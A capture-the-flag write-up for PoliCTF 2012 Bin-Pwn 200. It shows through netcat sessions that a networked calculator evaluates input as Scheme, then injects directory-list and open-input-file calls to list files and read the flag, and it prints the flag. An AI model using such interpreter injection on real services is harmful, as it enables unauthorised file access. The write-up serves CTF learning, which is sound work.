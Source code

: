 ```yaml
---
title: "PoliCTF 2012 - Bin-Pwn 200"
tags:
  - polictf2012
  - writeup
  - pwn
---
```


**Play with this amazing calculator: calc.challenges.polictf.it:4000**

In this challenge, we had to blindly exploit a networked binary in a black box
setting. The binary is a calculator that prompts the user for the first number,
an operator, and the second number. If the operation was valid it will return
the answer else it would hang there.

```shell
amon@Alyx:~$ nc calc.challenges.polictf.it 4000
Write the first number:1337
Write the operator:+
Write the second number:1337
2674amon@Alyx:~$
```

1337 + 1337 = 2674, sure no problem there. However, some odd calculations we
tried tipped us off to the true nature of the calculator.

```shell
amon@Alyx:~$ nc calc.challenges.polictf.it 4000
Write the first number:1 1 1 1 1 1
Write the operator:+
Write the second number:1
7

amon@Alyx:~$ nc calc.challenges.polictf.it 4000
Write the first number:1 1 1 1 1 1
Write the operator:-
Write the second number:1
-5
```

1 1 1 1 1 1 + 1 looks weird and should fail but it doesnt. It even yields 7
which is 1 + 1 + 1 + 1 + 1 + 1 + 1. The subtraction operation yields an even
weirder answer.

However, it was this operation that really revealed that the interpreter was
Scheme.

```
amon@Alyx:~$ nc calc.challenges.polictf.it 4000
Write the first number:1
Write the operator:<
Write the second number:2
#t

amon@Alyx:~$ nc calc.challenges.polictf.it 4000
Write the first number:2
Write the operator:<
Write the second number:1
#f
```

Sweet, #t and #f are values in Scheme representing True and False respectively.
Now we can expect that the layout of user supplied values would be (operator
first\_number second\_number) e.g. (+ 1 1). Now we understand how the input is
passed to an interpreter, a Scheme interpreter, so let's craft our attack
payload.

Objectives for our attack payload:

1. List files on the disk
2. 2. Read from file

Listing files may be achieved by the (directory-list) function.
Reading from a file may be done by (read (open-input-file "filename").

Let's list the files in the current directory:

```shell
amon@Alyx:~$ nc calc.challenges.polictf.it 4000
Write the first number:directory-list
Write the operator:
Write the second number:
(flag.txt challenge)
```

Great, let's read flag.txt.

```shell
amon@Alyx:~$ nc calc.challenges.polictf.it 4000
Write the first number:read (open-input-file "flag.txt")
Write the operator:
Write the second number:
cb1228e2387cc12ad30fd4243fc23a0
```

Easy.

Flag: **cb1228e2387cc12ad30fd4243fc23a0**
